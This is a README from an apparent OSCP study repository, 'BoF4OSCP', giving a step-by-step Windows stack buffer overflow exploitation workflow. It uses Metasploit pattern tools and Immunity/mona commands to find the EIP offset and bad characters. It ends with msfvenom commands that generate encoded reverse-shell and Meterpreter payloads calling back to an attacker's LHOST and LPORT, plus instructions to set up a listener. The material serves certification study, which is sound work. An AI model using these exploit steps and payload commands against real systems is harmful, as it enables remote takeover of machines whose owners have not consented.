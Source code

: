 # BoF4OSCP

TODO: python3 setup.py

It's gonna edit all the python scripts with your target IP and PORT

Then follow the next steps...

Make sure mona is installed:
```
!mona config -set workingfolder c:\mona
```

## 1st step : create a crash

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

run python3 offset.py
```

check on mona what is the EIP address

take the EIP address (that looks mike EIP 386F...)

## 2nd step : pattern create

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 (EIP ADDRESS)
[*] Exact match at offset 2003
```

## 3rd step : control EIP

edit eipOverwrite.py with the correct offset

```python3 eipOverwrite.py```

check on Immunity if EIP is well overwritten with 4B4B4B

## 4th step : finding badchars

```
python3 findingBadchars.py
```

right click on ESP, follow in dump

find the badchars using the following command

```
!mona compare -f c:\mona\bytearray.bin -a 005FF910(ESP ADDRESS)
```

## 5th step : fire up the reverse shell

We can also create encoded payloads if some sort of protections are presents
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
```
edit finalBuff
setup a listener

```
python3 finalBuffer.py
```
